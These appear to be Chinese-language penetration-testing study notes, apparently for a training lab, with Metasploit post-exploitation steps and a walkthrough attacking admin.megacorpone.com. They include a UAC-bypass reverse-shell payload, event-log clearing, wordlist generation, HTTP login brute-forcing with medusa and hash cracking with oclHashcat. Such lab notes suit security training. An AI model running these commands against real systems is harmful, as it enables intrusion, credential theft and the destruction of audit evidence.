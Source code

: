 显示目标机器截止到当前无操作命令的时间:
idletime

获取目标主机存储器信息:
background
use post/windows/gather/forensics/enum_drives
set session 1
exploit

windows系统UAC绕过(没有权限执行hashdump时使用):
use exploit/windows/local/bypassuac
show options
set session 1
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.30.5
set lport 8888
run

清除日志:
clearev



# 综合渗透示例

## admin.megacorpone.com

端口扫描发现81端口,访问发现是个空白的web界面

使用dirbuster爆破 http://admin.megacorpone.com:81 ,发现有admin目录且需要认证

生成字典:
cewl www.megacorpone.com -m 6 -w /root/mega-cewl.txt 2> /dev/null

以上个字典为基础生成有规律的社工性质字典:
john --wordlist=mega-cewl.txt --rules --stdout > mega-mangled

爆破后台:
medusa -h admin.megacorpone.com -u admin -p mega-mangled -M http -n 81 -m DIR:/admin -T 30

成功登录后,发现是个sqlite的管理后台,查找到管理员,获取对应的hash,保存成hashes.txt

使用hash-identifier尝试破解,但没有成功

本地搭建一个phpsqlitecms,找hash加密的函数
git clone https://github.com/ilosuna/phpsqlitecms.git
cd phpsqlitecms
grep -rl hash *
nano cms/includes/functions.admin.inc.php

找到 function generate_pw_hash($pw)

使用oclhashcat爆破:
./oclHashcat.bin -m 110 hashes.txt big-wordlist.txt --force

成功破解出其中两个hash
